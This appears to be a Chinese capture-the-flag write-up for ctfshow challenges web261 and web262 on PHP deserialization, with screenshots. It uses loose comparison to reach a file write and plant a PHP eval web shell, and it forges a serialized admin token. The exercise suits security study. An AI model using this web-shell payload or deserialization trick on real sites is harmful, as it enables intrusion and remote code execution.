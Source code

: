 ## web261

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141702531.png)

提示是打 Redis

魔术方法列表 [https://www.php.net/manual/zh/language.oop5.magic.php](https://www.php.net/manual/zh/language.oop5.magic.php)

当 `__wakeup()` 和 `__unserialize()` 同时存在时, 仅会执行 `__unserialize()` 方法

当存在 `__serialize()` 时, `$data` 的值为该方法返回的数组, 否则为一个包含反序列化后的全部属性的数组

这里 `if($this->code==0x36d)` 使用了 `==` , 会进行类型转换

所以我们只需要构造一个以 0x36d 的十进制数 877 开头的文件名即可

```php
<?php

class ctfshowvip{
    public $username = '877.php';
    public $password = '<?php eval($_REQUEST[1]);?>';
}

echo serialize(new ctfshowvip());

?>
```

连接

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141755585.png)

Redis 在哪里???

## web262

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208142103003.png)

注释里面有个 message.php

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141802482.png)

本地构造了下

```php
<?php

class message{
    public $from;
    public $msg;
    public $to;
    public $token='admin';

}

echo base64_encode(serialize(new message()));

?>
```
